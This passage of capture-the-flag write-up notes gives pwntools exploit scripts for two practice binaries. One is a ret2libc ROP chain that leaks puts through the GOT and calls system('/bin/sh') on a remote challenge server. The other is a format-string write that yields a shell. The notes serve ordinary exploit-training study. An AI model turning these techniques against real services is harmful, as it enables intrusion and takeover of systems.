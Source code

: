 
## 23 bjdctf_2020_babyrop

ret2libc

```python
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#libc = ELF("./libc.so.6")
#p = process('./pwn')
p = remote('node5.buuoj.cn',26423)
def dbg():
    gdb.attach(p)
    pause()
puts_plt=elf.plt['puts']
puts_got=elf.got['puts']
main=elf.sym['main']
pop_rdi = 0x400733

p.recvuntil(b'story!\n')
payload = b'a'*0x20+b'b'*0x8+p64(pop_rdi)+p64(puts_got)+p64(puts_plt)+p64(main)
p.sendline(payload)

puts_addr = u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
libc = LibcSearcher('puts',puts_addr)
libc_base = puts_addr-libc.dump('puts')

p.recvuntil(b'story!\n')
sys = libc_base+libc.dump('system')
binsh = libc_base+libc.dump('str_bin_sh')
payload2 = b'a'*0x20+b'b'*0x8+p64(pop_rdi)+p64(binsh)+p64(sys)+p64(main)
p.sendline(payload2)
p.interactive()
```

## 24 jarviso_fm

看名字就知道是格式化字符串，x==4的时候就可以getshell

直接找到x的地址，用自带函数就行

```python
from pwn import *
p = process('./pwn')
payload = fmtstr_payload(11,{0x804a02c:0x4})
p.sendline(payload)
p.interactive()
```
